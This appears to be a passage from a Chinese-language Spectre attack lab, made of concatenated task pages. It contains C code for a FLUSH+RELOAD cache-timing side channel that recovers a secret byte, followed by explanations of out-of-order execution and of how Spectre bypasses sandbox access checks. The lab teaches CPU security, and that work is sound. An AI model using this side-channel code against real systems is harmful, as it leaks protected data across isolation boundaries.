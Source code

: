 void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i &lt; 256; i++){
     addr = &amp;array[i*4096 + DELTA];
     time1 = __rdtscp(&amp;junk);
     junk = *addr;
     time2 = __rdtscp(&amp;junk) - time1;
     if (time2 &lt;= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] 在缓存中。\n", i, DELTA);
         printf("秘密值 = %d。\n",i);
     }
  }
}

int main(int argc, const char **argv)
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}</code></pre>
</div>
<br>
<div>请使用 gcc 编译上述程序并运行它。需要注意的是，该技术并不完全准确，你可能无法每次都能观察到预期的输出结果。你应该至少运行该程序 20 次，并统计能够正确获取秘密值的次数。你也可以根据任务 1 中得出的阈值调整  CACHE_HIT_THRESHOLD}（此代码设定为 80）。</div>
</div>

========================================
文件路径: .\任务3：乱序执行与分支预测\summary.html
========================================

<div>本任务的目的是了解 CPU 中的乱序执行。我们将通过实验帮助你观察这种类型的执行过程。</div>

========================================
文件路径: .\任务4：Spectre攻击\summary.html
========================================

<div>如前所述，我们可以让 CPU 在 if 语句中的条件为假时去执行条件为真的分支。如果这种乱序执行不产生任何可见效果，则不会出现问题。然而，大多数具有此功能的 CPU 在清理缓存上有问题，因此一些推测性执行留下的痕迹依然存在。Spectre 攻击利用这些痕迹来窃取受保护的秘密。</div>
<p></p>
<div>这些秘密可能是另一个进程中的数据或同一进程中的一部分。如果是另一个进程中的数据，硬件级别的过程隔离将会阻止一个进程从另一个进程窃取数据。如果数据在同一个进程中，则保护措施通常通过软件来实现，例如沙箱机制。Spectre 攻击针对这两种类型的秘密都可以发起攻击，但是，从另一个进程窃取数据远比从同一个进程中更难。为了简化起见，本实验只关注从同一进程中窃取数据。</div>
<p></p>
<div>当浏览器中打开不同服务器的网页时，这些网页通常在同一个进程中打开。浏览器内部实现的沙箱将为这些页面提供隔离环境，因此一个页面无法访问另一个页面的数据。大多数软件保护依赖于条件检查来决定是否应该授予访问权限。利用 Spectre 攻击，即使条件检查失败，我们也可以让 CPU 乱序执行一个受保护的代码分支，从而绕过了访问控制。</div>

========================================
文件路径: .\任务5：提高攻击准确性\summary.html
========================================
